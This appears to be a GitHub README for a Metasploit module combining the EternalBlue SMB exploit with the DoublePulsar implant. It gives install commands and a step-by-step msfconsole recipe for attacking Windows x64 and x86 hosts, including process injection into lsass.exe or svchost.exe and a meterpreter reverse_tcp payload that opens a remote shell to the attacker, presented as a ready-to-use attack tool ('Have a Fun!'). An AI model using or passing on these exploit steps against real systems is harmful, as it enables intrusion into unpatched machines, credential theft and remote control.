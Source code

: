 # Eternalblue-Doublepulsar-Metasploit

# How to Install
<pre>
~]# dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
~]# git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
~]# cd Eternalblue-Doublepulsar-Metasploit
~]# cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb

<strong>Note !!!</strong>: Also you may copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb

~]# mkdir -p /root/.wine/drive_c/
</pre>
# How to use
<pre>
~]# service postgresql start
~]# service postgresql enable
~]# msfconsole
- reload_all 
- use exploit/windows/smb/eternalblue_doublepulsar
- show options
</pre>
<br>
<strong>For Windows x64</strong>
<br>
<pre>
 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT lsass.exe
 - set TARGETARCHITECTURE x64
 - set payload windows/x64/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
</pre>
<br>
<strong>For Windows x86</strong>
<br>
<pre>
 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT explorer.exe
 - set TARGETARCHITECTURE x86
 - set payload windows/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
</pre>
 ##+ Have a Fun! :)
